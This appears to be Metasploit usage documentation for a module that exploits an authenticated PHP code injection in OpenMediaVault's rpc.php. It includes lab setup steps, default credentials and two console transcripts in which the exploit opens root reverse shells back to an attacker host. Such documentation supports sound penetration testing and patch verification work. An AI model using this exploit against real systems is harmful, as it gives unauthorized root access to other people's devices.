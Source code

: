 ## Vulnerable Application

### Description

  This module exploits an authenticated PHP code injection
  vulnerability found in openmediavault versions before 4.1.36
  and 5.x versions before 5.5.12 inclusive in the `sortfield`
  POST parameter of the `rpc.php` page, because `json_encode_safe()`
  is not used in `config/databasebackend.inc`.
  Successful exploitation grants attackers the ability to execute
  arbitrary commands on the underlying operating system as root.


### Installation And Setup

  1. Download version 5.5.11 of OpenMediaVault (i.e. [openmediavault_5.5.11-amd64.iso ISO](https://deac-ams.dl.sourceforge.net/project/openmediavault/5.5.11/openmediavault_5.5.11-amd64.iso)).
  2. Set up a new Debian machine in VirtualBox or VMWare and load the ISO.
  Follow the install prompts and note the `root` password you choose to use.
  Once the installation is finished, press `<Enter>` to reboot the server.
  3. Log into via the terminal using the username `root` and the password
  you set for the `root` user during installation.
  4. On the shell and run the command `ip a` to get the current IP address.
  5. Take the IP address and browse to the URL http://*IP ADDRESS*/, then log in
  with the default administrative credentials (`admin`:`openmediavault`).

## Options

### TARGETURI

  The URI path for OpenMediaVault installation

### USERNAME

  The username for OpenMediaVault

### PASSWORD

  The password for OpenMediaVault

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### OpenMediaVault 5.5.11 With Linux Dropper Payload
```
msf > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(unix/webapp/openmediavault_rpc_rce) > set RHOSTS 172.29.90.121
RHOSTS => 172.29.90.121
msf exploit(unix/webapp/openmediavault_rpc_rce) > set LHOST 172.29.95.98
LHOST => 172.29.95.98
msf exploit(unix/webapp/openmediavault_rpc_rce) > exploit

[*] Started reverse TCP handler on 172.29.95.98:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] 172.29.90.121:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 172.29.90.121:80 - Successfully authenticated with OpenMediaVault using admin:openmediavault.
[*] 172.29.90.121:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 172.29.90.121:80 - Identified OpenMediaVault version 5.5.11.
[*] 172.29.90.121:80 - Verifying remote code execution by attempting to execute 'usleep()'.
[+] 172.29.90.121:80 - Response received after 9 seconds.
[+] The target is vulnerable.
[*] 172.29.90.121:80 - Sending payload (150 bytes)...
[*] Sending stage (976712 bytes) to 172.29.90.121
[*] Meterpreter session 1 opened (172.29.95.98:4444 -> 172.29.90.121:59890) at 2020-11-09 11:26:22 -0600
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 10.5 (Linux 5.7.0-0.bpo.2-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: root @ openmediavault (uid=0, gid=0, euid=0, egid=0)
meterpreter > getwd
/
meterpreter > shell
Process 930 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 5.7.0-0.bpo.2-amd64 #1 SMP Debian 5.7.10-1~bpo10+1 (2020-07-30) x86_64 GNU/Linux
exit
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.29.90.121 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(unix/webapp/openmediavault_rpc_rce) >
```

### OpenMediaVault 5.5.11 With Unix In-Memory Payload
```
msf > use exploit/unix/webapp/openmediavault_rpc_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(unix/webapp/openmediavault_rpc_rce) > set RHOSTS 172.29.90.121
RHOSTS => 172.29.90.121
msf exploit(unix/webapp/openmediavault_rpc_rce) > set LHOST 172.29.95.98
LHOST => 172.29.95.98
msf exploit(unix/webapp/openmediavault_rpc_rce) > set TARGET 1
TARGET => 1
msf exploit(unix/webapp/openmediavault_rpc_rce) > show options

Module options (exploit/unix/webapp/openmediavault_rpc_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.29.90.121    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI path of the OpenMediaVault installation
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       The OpenMediaVault username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_ssh):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.29.95.98     yes       The listen address (an interface may be specified)
   LPORT  22               yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Unix In-Memory)


msf exploit(unix/webapp/openmediavault_rpc_rce) > set LPORT 9988
LPORT => 9988
msf exploit(unix/webapp/openmediavault_rpc_rce) > run

[*] Started SSH reverse handler on ssh://172.29.95.98:9988
[*] Executing automatic check (disable AutoCheck to override)
[*] 172.29.90.121:80 - Authenticating with OpenMediaVault using admin:openmediavault...
[+] 172.29.90.121:80 - Successfully authenticated with OpenMediaVault using admin:openmediavault.
[*] 172.29.90.121:80 - Trying to detect if target is running a supported version of OpenMediaVault.
[+] 172.29.90.121:80 - Identified OpenMediaVault version 5.5.11.
[*] 172.29.90.121:80 - Verifying remote code execution by attempting to execute 'usleep()'.
[+] 172.29.90.121:80 - Response received after 6 seconds.
[+] The target is vulnerable.
[*] 172.29.90.121:80 - Sending payload (158 bytes)...
[*] SSH command shell session 2 opened (127.0.0.1 -> 127.0.0.1) at 2020-11-09 11:28:39 -0600

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
uname -a
Linux openmediavault 5.7.0-0.bpo.2-amd64 #1 SMP Debian 5.7.10-1~bpo10+1 (2020-07-30) x86_64 GNU/Linux
pwd
/
```
